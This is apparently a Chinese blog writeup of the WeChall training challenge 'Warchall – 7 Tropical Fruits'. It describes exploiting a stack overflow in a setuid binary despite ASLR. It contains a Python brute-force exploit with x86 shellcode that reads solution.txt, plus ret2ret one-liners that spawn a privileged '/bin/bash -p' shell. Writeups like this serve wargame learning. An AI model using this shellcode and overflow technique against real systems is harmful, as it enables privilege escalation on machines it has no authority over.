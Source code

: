 ```yaml
---
title: 'Writeup-Training: Warchall - 7 Tropical Fruits'
tags: [Hack, Python, Writeup]
date: 2014-05-14
---
```

<p style="color: #000000;">
  Challenge URL：<a style="color: #294666;" href="http://www.wechall.net/challenge/warchall/tropical/7/index.php">Training: Warchall &#8211; 7 Tropical Fruits</a>
</p>

Wechall的tropic这道题真是撸得我考试周复(yu)习(xi)都没心思了，花了两天半终于搞定了，才63人做出来的题目居然是training！！！

做这题的时候也是我第一次写shellcode，不过这道题难点不在于shellcode怎么写，而在于坑爹的ASLR。不说stack的地址一直在变，居然连linux-gate.so都在变！

一开始查了好久，发现个思路叫ret2libc，然后我gdb了一下，发现system()的地址虽然是随机的，但是有6位是不变的。然后我就撸啊撸，撸了个shell脚本，速度不错，居然半分钟之内就能把system(&#8220;sh&#8221;)跑出来。看到&#8221;sh-4.2$&#8221;的时候我那叫一个激动啊。坑爹的是system()这货执行的时候居然会丢掉suid的权限(man system#NOTES)。

所以忙活了一天，我的成果就是，在一个shell下面，再开一个shell&#8230;&#8230;

然后第二天我不甘心啊，就找啊找找啊找，找到了exec函数族。

```c
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
//其中只有execve是真正意义上的系统调用，其它都是在此基础上经过包装的库函数。
```

这货厉害，suid会传递下去，但是悲催的是每个函数的参数不止一个，而且大多都要求最后一个参数为NULL(直接无视)，但是execv之类的函数又不方便构造后面的那些二阶指针，所以我昨天就是在满屏的Segmentation Fault中度过的，偶尔出现的Invalid Instruction能让人高兴好一阵。

第二天无果，不过我cat了一下compile7.sh，发现了好玩的东西

```shell
#!/bin/bash
gcc -fno-stack-protector -z execstack level7.c -o level7
chmod 6755 level7
```

是的&#8230;出题者把DEP关掉了&#8230;然后我就睡不着了

## 解法：

今天早上考完离散就立马赶回寝室继续撸这道题，虽然解法很很蠢(对stack的5个随机位进行碰撞)，但是至少能在10分钟内出结果……

先给solution.txt建一个到工作目录软连接:

```shell
$ ln -s /home/level/tropic/7/solution.txt ./lk
```


然后跑这个python脚本：

```python
# -*- coding=utf8 -*-
__author__ = 'Cubarco'


def tropic_crack():
    try:
        shellcode = "1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk" \
                    "\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80"
        stack_hex = hex(random.randint(0xbf00000, 0xbffffff)*0x10+0x01)[:-1]
        stack_int = int(stack_hex, 16)
        path = "/home/level/tropic/7/level7"
        args = [path,
                '\x90'*(312-len(shellcode))
                + shellcode
                + struct.pack('&lt;L', stack_int)]
        args[1] = args[1].replace("(", "\\(")\
                         .replace("\"", "\\\"")\
                         .replace(")", "\\)")\
                         .replace("\\", "\\\\")\
                         .replace("\'", "\\\'")
        p = subprocess.Popen(args,
                             stdout=subprocess.PIPE,
                             stderr=subprocess.PIPE,
                             shell=False)
        rsp = p.stdout.read()
        if rsp != '':
            print rsp
    except:
        # print traceback.format_exc()
        # 好像subprocess开太快了会出问题...
        pass


if __name__ == '__main__':
    import struct
    import random
    import subprocess
    import traceback
    
    while True:
        tropic_crack()
```

做完题去题解讨论区看到个ret2ret的思路感觉好棒，有时间研究一下。

对了，跑脚本的时候如果它卡住了而且ctrl+c关不掉请不要来打我。正确姿势是killall&#8230;..

UPDATE: 刚看了一下ret2ret，我想去死一死了。是的，只用下面一句话就能搞定，oh，前提还是给solution.txt建立一个到工作目录的软链接，名字是lk（其实是因为./lk刚好是四字节， 如果用原来的路径好麻烦还要四字节对齐，偷个懒）

```shell
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
# 0x080484d2是程序里面一个执行ret指令的地址，随便挑！
```

更BT一点还可以这样，跑一个/bin/bash -p：

```shell
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'j\x0bX\x99Rfh-p\x89\xe1Rjhh/bash/bin\x89\xe3RQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
bash-4.2$ id
uid=4057(cubarco) gid=4057(cubarco) egid=1008(level7) groups=4057(cubarco)
# 然后你就有level7的egid了...
```

##  参考：

  1. Hackers Hut#[Smashing The Stack][1](ASLR bypassing overview)
  2. [Performing a ret2libc Attack][2](ret2libc)
  3. [Return-to-libc Attack Lab][3](ret2libc)
  4. [Smack the Stack][4](ret2ret)

 [1]: http://www.win.tue.nl/~aeb/linux/hh/hh-10.html
 [2]: http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf
 [3]: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf
 [4]: http://web.textfiles.com/hacking/smackthestack.txt
